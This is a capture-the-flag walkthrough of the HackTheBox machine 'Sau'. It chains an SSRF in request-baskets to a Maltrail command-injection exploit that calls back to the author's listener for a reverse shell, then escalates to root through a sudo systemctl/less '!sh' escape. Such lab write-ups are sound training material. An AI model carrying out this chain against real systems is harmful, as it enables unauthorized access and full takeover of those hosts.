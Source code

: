 ```yaml
---
Platform: HackTheBox
Difficulty: Easy
tags:
  - RCE
  - SSRF
  - suid
Status: Rooted/Finished
Type: Machine
Title: Sau
Category: 
CreatedOn: 04-12-2023
---
```

# Sau

Hello everyone, In this blog we are going to solve Sau from HackTheBox.

Link for the machine : [https://app.hackthebox.com/machines/Sau](https://app.hackthebox.com/machines/Sau)

  

Lets Start 🙌

  

Connect to the HTB server by using the OpenVpn configuration file that’s generated by HTB.

[ [Click Here](https://help.hackthebox.com/en/articles/5185687-introduction-to-lab-access) to learn more about how to connect to vpn and access the boxes. ]

After connecting to the vpn service, click on Join Machine to access the machine’s ip.

After joining the machine you can see the IP Address of the target machine.

  

First I started by scanning for open ports on the target machine.

![[Sau/assets/Untitled.png|Untitled.png]]

![[Sau/assets/Untitled 1.png|Untitled 1.png]]

From the response of the `nmap` , there are 3 open ports of which one is SSH running on port 22, on port 80 HTTP service is running, but its filtered by firewall and the other one is running on port `55555` , which is unknown, but returns a response for HTTP GET request.

On visiting port 55555 on via browser, It returned a website.

![[Sau/assets/Untitled 2.png|Untitled 2.png]]

In the website is running the `request baskets` service version `1.2.1`. On searching about this service on google, found this: [https://www.exploit-db.com/exploits/51675](https://www.exploit-db.com/exploits/51675), which proves that the website is vulnerable to SSRF vulnerability. To exploit this vulnerability first create a new basket.

![[Sau/assets/Untitled 3.png|Untitled 3.png]]

Next make a note on the basket name and the access token and click on open basket.

![[Sau/assets/Untitled 4.png|Untitled 4.png]]

After opening the basket click on the settings icon on the top right corner.

![[Sau/assets/Untitled 5.png|Untitled 5.png]]

It open a configuration dialog box.

![[Sau/assets/Untitled 6.png|Untitled 6.png]]

On the configuration dialog box, fill the details as shown in the above figure and click apply. By configuring as mentioned above, we are trying to access the HTTP service running on port `80` which was blocked by the firewall on the target machine by leveraging the SSRF vulnerability.

Basically what ever URL we configure on request basket, the request basket will send a GET request on its behalf and fetch the results for us, in our case it acts like a proxy to fetch the website, which is not accessible to use from the outside network, but is accessible to request basket application, since it is running on the same network on which the web service is running.

![[Sau/assets/Untitled 7.png|Untitled 7.png]]

Now open the link [ mentioned in the above picture, link might be different in your case ] in a new tab.

![[Sau/assets/Untitled 8.png|Untitled 8.png]]

We can see a website which is running `Maltrail v0.53`, nothing else is interesting on the website. So I started searching about `Maltrail v0.53`, and found this [https://www.exploit-db.com/exploits/51676](https://www.exploit-db.com/exploits/51676), from which we can device that the service is vulnerable to RCE.

So I downloaded the payload [ [https://www.exploit-db.com/download/51676](https://www.exploit-db.com/download/51676) ] to give it a try.

![[Sau/assets/Untitled 9.png|Untitled 9.png]]

Before executing the payload, I started a `netcat` listener on port 8000.

![[Sau/assets/Untitled 10.png|Untitled 10.png]]

Now its time to execute the payload.

Command: `python3 51676 <HTB_VPN_TUN_IP> 8000 <the_request_basket_address_that_we_used_to_access_the_web_service>`

![[Sau/assets/Untitled 11.png|Untitled 11.png]]

After executing the exploit, check the `netcat` listener.

![[Sau/assets/Untitled 12.png|Untitled 12.png]]

We successfully got the connection back. Now we got our initial access to the target machine. First I upgraded the shell.

Command: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

![[Sau/assets/Untitled 13.png|Untitled 13.png]]

And also I found the user flag.

![[Sau/assets/Untitled 14.png|Untitled 14.png]]

Now its time to escalate our privileges and find the root flag.

I was looking out for some common privilege escalation vectors and found this.

![[Sau/assets/Untitled 15.png|Untitled 15.png]]

The user `puma` can run the command `/usr/bin/systemctl status trail.service` as `sudo` without entering the password. I checked GTFObins regarding this and found this [https://gtfobins.github.io/gtfobins/systemctl/#sudo](https://gtfobins.github.io/gtfobins/systemctl/#sudo)

![[Sau/assets/Untitled 16.png|Untitled 16.png]]

Thus if we run the command `sudo /usr/bin/systemctl status trail.service` , then run the command `!sh` after entering into the less page, we can escalate our privileges as root.

![[Sau/assets/Untitled 17.png|Untitled 17.png]]

Now we have successfully escalated our privileges as root. Now its time to find the root flag.

![[Sau/assets/Untitled 18.png|Untitled 18.png]]

We have successfully found the root flag.

  

  

Thank You…….
